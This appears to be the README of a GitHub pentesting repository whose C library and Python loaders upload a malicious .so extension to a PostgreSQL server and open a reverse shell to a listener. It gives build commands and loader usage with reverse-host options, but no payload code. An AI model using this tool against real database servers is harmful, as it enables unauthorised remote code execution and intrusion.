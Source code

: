 # psql_UDF

## This repo includes 4 files:

- pg_exec.c  (file for creating .so, you should use docker with a compatible version of postgresql)

- psql_so_loader_auto.py (script to load .so lib on the postgresql server if you have rights)

- psql_so_loader_auto_v2.py (the same script but with socket server for reverse shell)

- server_for_pg.py (just alone socket server for reverse shell)




## Thanks a lot those people:

   https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions

   https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/big-binary-files-upload-postgresql

   https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql_hacking.md

   https://gist.github.com/0xabe-io/916cf3af33d1c0592a90

   https://xakep.ru/2020/04/14/python-reverse-shell/#toc03.1
   
   
   
## Quick start:

    pip install -r requirements.txt

Debian
    
    apt install postgresql-server-dev-all

CentOS
    
    yum install postgresql-devel

/*
    make

    python psql_so_loader_auto_v2.py




## USAGE:

python psql_so_loader_auto_v2.py [-h] [-p PASSWORD] [-u USERNAME] [-d DATABASE] [-H HOSTNAME] [-P PORT] [-rh RHOST] [-rp RPORT] -f FILENAME

options:
 
    -h, --help            show this help message and exit
 
    -p PASSWORD, --password PASSWORD
                        pass for postgresql
 
    -u USERNAME, --username USERNAME
                        user for postgresql
 
    -d DATABASE, --database DATABASE
                        database for postgresql
 
    -H HOSTNAME, --hostname HOSTNAME
                        hostname or IP for postgresql
 
    -P PORT, --port PORT  database for postgresql
 
    -rh RHOST, --rhost RHOST
                        ip of host listen reverse
 
    -rp RPORT, --rport RPORT
                        port of host listen reverse
 
    -f FILENAME, --filename FILENAME
                        file name of lib.so

